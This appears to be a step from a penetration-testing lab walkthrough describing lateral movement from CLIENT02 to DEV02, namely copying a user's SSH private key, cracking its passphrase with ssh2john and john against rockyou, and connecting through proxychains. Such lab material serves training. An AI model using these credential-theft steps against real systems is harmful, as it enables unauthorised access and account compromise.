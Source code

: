 # Leaving CLIENT02 / Lateral movement to DEV02

Once you have administrative access on CLIENT02, there is an SSH private key in an user's folder.  
1. Copy the file "C:\Users\nicole.lewis\.ssh\nlewis" onto your Kali VM
2. Convert SSH key to john format: `python ssh2john.py nlewis > hash_nlewis_key.txt`
3. Crack the key: `john --wordlist=rockyou.txt hash_nlewis_key.txt`
4. Connect to DEV02 with the SSH key: `proxychains ssh -i nlewis dev@172.16.X.222`

If you have any question, feel free to contact me on Discord Tamarisk#3723
Note : this document is subject to evolution to better fit your needs. We keep in touch !